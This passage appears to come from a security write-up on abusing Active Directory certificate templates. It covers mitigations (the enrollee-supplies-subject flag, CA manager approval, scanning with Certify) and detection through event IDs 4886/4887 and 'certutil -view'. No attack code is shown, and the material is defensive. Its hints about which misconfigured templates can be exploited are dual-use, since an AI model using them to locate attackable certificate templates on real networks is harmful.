This attack is no possible if the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag is not enabled in the certificate template. Another method to thwart this attack is to require CA certificate manager approval before issuing certificates. It is highly recommended to scan your network using certify to find potential issues.

### Detection

When the CA generates the certificate, two events are logged. One is event ID 4886 for the certificate request and the other is event ID 4887 for the issued certificate. We can run:

```powershell
certutil -view
```

But ensure that you filter it because in a full AD environment the output of this will be massive.


## <u>*Useful Resources*</u>

- [Windows Logon Types](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types)


